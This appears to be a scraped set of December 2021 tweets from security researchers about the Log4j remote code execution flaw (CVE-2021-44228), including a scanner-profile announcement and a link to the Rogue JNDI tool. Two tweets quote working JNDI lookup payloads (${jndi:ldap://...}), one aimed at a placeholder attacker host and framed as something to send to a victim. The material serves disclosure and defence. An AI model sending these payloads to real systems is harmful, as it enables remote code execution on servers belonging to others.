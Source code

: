 # BurpBounty
**https://twitter.com/BurpBounty/status/1469249786092085249 _at 2021-12-10 10:17:01_**
<blockquote>
CVE-2021-44228 Log4j RCE Burp Bounty Pro Profile Available!

Log4j versions prior to 2.15.0 are subject to a remote code execution vulnerability via the ldap JNDI parser.

If your are a Burp Bounty Pro user, you can download now the profile at:

https://t.co/2lXRz3gwkQ
</blockquote>

* https://burpbounty.net/cve-2021-44228-log4j-rce/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# artsploit
**https://twitter.com/artsploit/status/1469245422153699329 _at 2021-12-10 09:59:40_**
<blockquote>
log2j RCE (CVE-2021-44228): You may find my Rogue JNDI tool useful for exploitation. Just run the server and send ${jndi:ldap://attacker.com/o=tomcat} payload to the victim https://t.co/XS3bkt9QjX
</blockquote>

* https://github.com/veracode-research/rogue-jndi

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>146</code></td>
<td>Favorites: <code>484</code></td>
</tr></table>

---

# dcuthbert
**https://twitter.com/dcuthbert/status/1469221815952289793 _at 2021-12-10 08:25:52_**
<blockquote>
Log4j RCE found, which could make life a bit miserable for those who use it 

${jndi:ldap://atoteslegitsitewhilistedbyall.com/a}

--&gt; https://t.co/hGUMTDDcsF

oh dears....

